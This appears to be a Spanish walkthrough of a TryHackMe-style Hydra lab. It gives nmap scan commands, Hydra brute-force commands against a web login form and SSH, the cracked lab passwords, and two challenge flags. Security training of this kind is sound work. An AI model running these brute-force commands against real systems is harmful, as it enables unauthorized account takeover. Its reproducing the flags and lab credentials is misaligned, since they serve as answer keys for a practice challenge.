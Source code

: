 ## 1. Escaneo Inicial

bash

Copy

sudo nmap -sS 10.10.123.45 -sV -sC

**Resultados:**

- Puerto 22 (SSH) abierto → OpenSSH 7.6p1
    
- Puerto 80 (HTTP) abierto → Apache 2.4.29 (Ubuntu)
    

## 2. Fuerza Bruta al Formulario Web

**Inspección del formulario:**

1. Accedí a `http://10.10.123.45/login/`
    
2. Verifiqué el código fuente (Ctrl+U)
    
3. Confirmé que usa método POST con campos:
    
    - `username`
        
    - `password`
        

**Comando Hydra:**

bash

Copy

hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.123.45 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -t 4

**Credenciales encontradas:**

- Usuario: **molly**
    
- Contraseña: **sunshine**
    

## 3. Acceso al Panel Web

- Ingresé las credenciales en el formulario
    
- Obtenido **Flag 1** en el panel de usuario:  
    `THM{2673a7dd116de68e85c48ec0b1f2612e}`
    

## 4. Fuerza Bruta a SSH

**Comando Hydra:**

bash

Copy

hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.123.45 -t 4

**Credenciales SSH:**

- Mismo usuario: **molly**
    
- Contraseña diferente: **butterfly**
    

## 5. Acceso por SSH y Flag 2

bash

Copy

ssh molly@10.10.123.45
Password: butterfly

**Búsqueda de la flag:**

bash

Copy

find / -name "*flag*" 2>/dev/null
cat /home/molly/flag2.txt

**Flag 2 obtenida:**  
`THM{c8eeb0468febbadea859baeb33b2541b}`